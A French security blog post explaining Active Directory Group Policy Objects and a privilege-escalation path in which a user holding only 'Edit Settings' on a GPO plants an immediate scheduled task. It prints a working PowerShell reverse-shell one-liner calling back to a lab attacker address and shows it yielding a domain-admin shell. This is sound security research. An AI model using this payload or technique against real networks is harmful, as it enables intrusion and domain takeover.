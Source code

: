 ```yaml
---
title: "GPO - Chemin d'attaque"
date: 2019-04-23 11:28:42
author: "Pixis"
layout: post
permalink: /gpo-abuse-with-edit-settings/
disqus_identifier: 0000-0000-0000-00ae
cover: assets/uploads/2019/04/gpo_banner.png
description: "Cet article présente ce qu'est une GPO puis décrit un chemin d'attaque possible lorsqu'un attaquant a le droit de modifier les paramètres d'une GPO qui s'applique à des utilisateurs."
tags:
  - "Active Directory"
  - Windows
---
```


Cet article présente ce qu'est une GPO (Group Policy Object) puis décrit un chemin d'attaque possible lorsqu'un attaquant a le droit de modifier les paramètres d'une GPO qui s'applique à des utilisateurs.

<!--more-->

## Group Policy Object

### Définition

Parmi les différents rôles d'un Active Directory se trouve le rôle de gestion du parc. Active Directory permet de gérer l'ensemble des machines et utilisateurs du système d'information, et pour cela les "stratégies de groupe" (Group Policy Objects - GPO) sont un outil indispensable.

Concrètement, les GPO sont un ensemble de règles/actions qui s'appliquent à un ensemble bien défini d'objets. Une GPO permet de faire beaucoup, beaucoup de choses. 

[![Example GPO](/assets/uploads/2019/04/example_gpo.png)](/assets/uploads/2019/04/example_gpo.png)

Comme on le voit sur cette capture d'écran, il est possible de créer/modifier des scripts au démarrage et à l'arrêt d'une machine, de changer les paramètres du pare-feu, de créer des tâches planifiées, ou même d'ajouter des utilisateurs au groupe local d'administration. Ce ne sont que des exemples parmi tant d'autres pour montrer à quel point les fonctionnalités imposables via GPO sont diverses et puissantes.

### Composition

Une GPO est composée de deux éléments :

* Un conteneur (Group Policy Container - GPC), qui est l'objet enregistré dans l'Active Directory, sous le groupe `adsec.local > system > policies`. Chaque GPO est identifiée par un identifiant unique dans le domaine.

[![GPC](/assets/uploads/2019/04/gpc.png)](/assets/uploads/2019/04/gpc.png)

C'est ici que sont gérés finement les droits de création/modification des GPO, comme tout objet de l'Active Directory. 


* Les fichiers qui contiennent les informations à appliquer sur les machines ou les utilisateurs. Ces fichiers sont présents sur chaque contrôleur de domaine, dans le partage réseau `\\dc-01.adsec.local\SYSVOL\adsec.local\Policies\`, et sont organisés dans des dossiers : Un dossier par GPO, le nom du dossier étant l'identifiant unique correspondant au conteneur GPC.

[![GPO files](/assets/uploads/2019/04/gpo_files.png)](/assets/uploads/2019/04/gpo_files.png)

C'est grâce à l'exposition de ces fichiers aux comptes de domaine que ces derniers peuvent mettre à jour leurs GPO.

## Contexte de recherche

Dans ma croisade en plein Active Directory, j'utilise de manière très intense l'outil [Bloodhound](https://github.com/BloodHoundAD/BloodHound) développé par [@wald0](https://twitter.com/_wald0), [@Harmj0y](https://twitter.com/harmj0y) et [@CptJesus](https://twitter.com/cptjesus), que je ne remercierai jamais assez pour leur travail et leur disponibilité sur leur slack [BloodHoundHQ](https://bloodhoundgang.herokuapp.com/). 

Après avoir regardé la [prise de parole](https://www.youtube.com/watch?v=0r8FzbOg2YU&list=PL1eoQr97VfJnvOWo_Jxk2qUrFyB-BJh4Y&index=4&t=0s) de [@wald0](https://twitter.com/_wald0) et [@CptJesus](https://twitter.com/cptjesus) à la conférence [WeAreTroopers](https://www.troopers.de/), j'ai commencé à me pencher sur les chemins d'attaque impliquant les GPO. Bloodhound aide énormément sur ce sujet, et propose notamment un chemin d'attaque lorsqu'un compte du domaine a les droits `WriteDacl` sur une GPO. 

[![BloodHound Path](/assets/uploads/2019/04/bh_path.png)](/assets/uploads/2019/04/bh_path.png)

Sur ce schéma, on voit un utilisateur avec un crâne, correspondant à un compte compromis. Ce compte fait partie d'un groupe qui possède les droits `WriteDacl` sur une GPO. Cette GPO s'applique enfin à une unité d'organisation (OU) contenant notamment l'utilisateur en bas à droite, cible de l'attaque.

Ce droit `WriteDacl` permet aux membres du groupe de modifier les ACL (Access Control List) de la GPO concernée, c'est à dire les droits d'accès à la GPO, notamment la modification du propriétaire de l'objet. Ainsi, un utilisateur du groupe possédant ce droit peut s'auto-proclamer propriétaire, pour ensuite la modifier arbitrairement.

Par défaut, lorsqu'une GPO est créée, peu de personnes ont le droit de la modifier. Les utilisateurs peuvent la lire (obligatoire pour pouvoir l'appliquer !), mais seuls les groupes "Domain Admins" et "Enterprise Admins" ont les droits absolus dessus, c'est à dire qu'ils peuvent la modifier (Edit Settings), la supprimer (Delete), et modifier les droits d'accès (Modify Security).

[![ACL GPO](/assets/uploads/2019/04/ACL_GPO.png)](/assets/uploads/2019/04/ACL_GPO.png)


Si un administrateur souhaite déléguer ces permissions à un utilisateur sans pour autant l'ajouter à l'un des deux groupes, c'est tout à fait possible via cet onglet de délégation. C'est un endroit simplifiant la gestion des droits sur une GPO. En effet, il est tout à fait possible de modifier les droits directement au niveau de la GPC, mais c'est beaucoup plus complexe.

[![GPC Rights](/assets/uploads/2019/04/GPC_rights.png)](/assets/uploads/2019/04/GPC_rights.png)

On voit que la barre de défilement permet de lister un grand, très grand nombre de paramètres d'accès.

Il est donc plus aisé de passer par l'interface de gestion des GPO pour ajouter un utilisateur afin de lui déléguer des droits :

[![Add User ACL Gpo](/assets/uploads/2019/04/add_user_acl_gpo.png)](/assets/uploads/2019/04/add_user_acl_gpo.png)

Puis on indique les droits qu'on lui concède :

[![Edit settings user](/assets/uploads/2019/04/edit_settings_add_user.png)](/assets/uploads/2019/04/edit_settings_add_user.png)

Trois choix sont proposés, choix qui sont une préselection facilitant la vie des administrateurs, en modifiant des droits bien précis au niveau de la GPC.

[![Edit settings added for user](/assets/uploads/2019/04/settings_added.png)](/assets/uploads/2019/04/settings_added.png)

Maintenant cet utilisateur fait partie des personnes/groupes à avoir les droits ultimes sur cette GPO. C'est ce contrôle total que l'on voit apparaitre dans BloodHound lorsqu'une entité a un lien "WriteDacl" vers une GPO. En effet, cette présélection ajoute les paramètres de sécurité "Modify Owner" et "Modify Permissions".

[![Write DACL](/assets/uploads/2019/04/writedacl.png)](/assets/uploads/2019/04/writedacl.png)



## Droit "Edit Settings"

On a vu au-dessus qu'il y avait trois niveaux de délégation :

* Read
* Edit Settings
* Edit Settings, delete, modify security

Il n'y a que le troisième niveau qui est pris en charge dans la collecte BloodHound. Cependant, que se passe-t-il si un utilisateur ne possède que le droit de modifier la GPO, mais pas les ACL associées ? BloodHound ne remontant pas ce lien, c'est la question que je me suis posée. 

Pour y répondre, j'ai créé une GPO d'exemple, appelée "TestGPO Abuse", s'appliquant à l'ensemble des utilisateurs appartenant à l'OU "Domain Users". Comme dans l'exemple précédant, j'ai ajouté l'utilisateur "jdoe" dans la délégation de la gestion de cette GPO, en indiquant qu'il ne pouvait que modifier les paramètres de cette GPO, mais pas les ACL associées ("Edit Settings").

[![Edit Settings for jdoe](/assets/uploads/2019/04/edit_settings_jdoe.png)](/assets/uploads/2019/04/edit_settings_jdoe.png)

## GPO appliquée à des utilisateurs

Dans ma recherche, je souhaitais également savoir ce que je pouvais faire lorsque la GPO ne s'appliquait qu'à des utilisateurs, pas à des machines. C'est pourquoi "TestGPO Abuse" ne s'applique qu'à l'OU "Domain Users". En effet, tous les paramètres contrôlables dans la partie "Computer Configuration" de la GPO ne s'appliqueront pas si cette GPO est destinée à des utilisateurs. Seuls ceux dans "User Configuration" le seront.

[![No Computer GPO](/assets/uploads/2019/04/no_computer_gpo.png)](/assets/uploads/2019/04/no_computer_gpo.png)

Mais concrètement, qu'est-ce qui est disponible dans les paramètres de GPO appliqués à un utilisateur ? Et bien beaucoup moins de choses, mais des paramètres intéressants tout de même !

[![User Example GPO](/assets/uploads/2019/04/user_gpo_example.png)](/assets/uploads/2019/04/user_gpo_example.png)

On voit qu'on peut installer des paquets, gérer encore une fois les scripts au login/logout, éditer des groupes et utilisateurs locaux et les tâches planifiées.

## Exploitation via une tâche planifiée immédiate

Nous allons nous intéresser plus particulièrement aux tâches planifiées. Il est possible de créer des tâches planifiées qui s'exécuteront immédiatement, lorsque la GPO sera appliquée à l'utilisateur.

Ainsi, si nous nous connectons en tant que l'utilisateur `jdoe` sur une machine, nous pouvons créer cette tâche.

[![Abuse Task](/assets/uploads/2019/04/abusetask.png)](/assets/uploads/2019/04/abusetask.png)

Elle est créée en tant que l'utilisateur `jdoe`, et lorsqu'elle sera appliquée, ce sera en tant que l'utilisateur à qui elle s'applique.

Dans l'onglet "Actions", nous indiquons ce qu'il se passera à l'exécution. Ici, nous utilisons un reverse-shell en Powershell pour que lors de son exécution, l'utilisateur cible se connecte à l'attaquant en proposant un shell.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.0.20.12",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Ce code est transormé en base 64 pour le passer à la commande `powershell -enc <base 64 de la commande>`.

[![Abuse Task Powershell](/assets/uploads/2019/04/abusetask_pwsh.png)](/assets/uploads/2019/04/abusetask_pwsh.png)

Une fois cette tâche créée, lors de la mise à jour des GPO sur un client, par exemple sur le compte `support-account` qui est administrateur du domaine dans ce lab, elle est exécutée sur la machine, et l'attaquant récupère un shell en tant qu'administrateur du domaine.

[![Reverse Shell Worked](/assets/uploads/2019/04/re_shell_worked.png)](/assets/uploads/2019/04/re_shell_worked.png)

## Conclusion

L'idée de cet article est de montrer que les GPO sont un pilier dans l'organisation d'un Active Directory, et doivent être maitrisées tout autant que beaucoup d'autres objets. Une permission mal placée peut permettre à un attaquant d'en abuser et d'élever ses privilèges dans le système d'information.

Ici, l'exemple de la tâche planifiée a été utilisé sur une GPO appliquée à des utilisateurs, cependant il existe un grand nombre de possibilités ouvertes par les GPO qui peuvent être utilisées pour exécuter du code. 
